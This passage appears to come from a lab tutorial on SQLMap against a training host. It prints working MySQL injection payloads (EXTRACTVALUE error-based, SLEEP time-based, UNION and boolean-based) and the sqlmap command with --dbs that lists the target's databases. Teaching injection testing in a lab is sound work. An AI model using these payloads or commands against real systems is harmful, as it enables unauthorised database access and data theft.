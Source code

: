     Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: cat=1 AND EXTRACTVALUE(1846,CONCAT(0x5c,0x716a787071,(SELECT (ELT(1846=1846,1))),0x7170766a71))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cat=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT CONCAT(0x716a787071,0x714d486661414f6456787a4a55796b6c7a78574f7858507a6e6a725647436e64496f4965794c6873,0x7170766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- HMgq
---
[08:45:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[text removed]

        

The results in the above terminal show us that different types of SQL injection, such as boolean-based blind, error-based, time-based blind, and UNION query, are identified in the target URL. These are different techniques for exploiting a SQL injection vulnerability. For example, in the boolean-based blind SQL injection, the SQL query is modified, and a boolean expression (that is always true, e.g., 1=1) is included with the query to extract the information. Whereas in the error-based SQL injection, some queries are intentionally modified to generate errors in the results sent by the database. These errors often contain valuable information about the data. Similarly, other SQL injection techniques can also be employed to exploit a database.

The results from the command we executed for our target http://sqlmaptesting.thm/search/cat=1 tell us that different types of SQL injection are possible on this URL. Let's use SQLMap's flags, which we studied earlier, to exploit them and extract some valuable data from the database.

To fetch the databases, we use the flag --dbs. Let's try this flag out with our vulnerable URL:
Extracting databases names

           
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:49:00] [INFO] resuming back-end DBMS' mysql' 
[08:49:00] [INFO] testing connection to the target URL
[08:49:01] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]    
[08:49:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:49:01] [INFO] fetching database names
available databases [2]:
[*] users
[*] members